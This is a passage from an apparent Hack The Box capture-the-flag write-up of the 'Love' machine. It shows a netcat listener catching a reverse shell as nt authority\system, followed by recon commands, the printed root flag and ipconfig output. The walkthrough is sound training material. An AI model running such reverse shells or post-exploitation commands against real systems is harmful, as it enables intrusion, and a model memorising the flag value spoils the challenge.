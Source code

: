 Obtained the reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ nc -nlvp 10099                                                                            
listening on [any] 10099 ...
connect to [10.10.14.105] from (UNKNOWN) [10.129.128.110] 64526
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
Love
909c70fd07a01517cefe7fc5d9e1bd6d

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Love
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : .htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-83-FA
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.129.128.110(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Lease Obtained. . . . . . . . . . : Wednesday, May 5, 2021 5:41:36 AM
   Lease Expires . . . . . . . . . . : Wednesday, May 5, 2021 12:21:52 PM
   Default Gateway . . . . . . . . . : 10.129.0.1
   DHCP Server . . . . . . . . . . . : 10.129.0.1
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
```
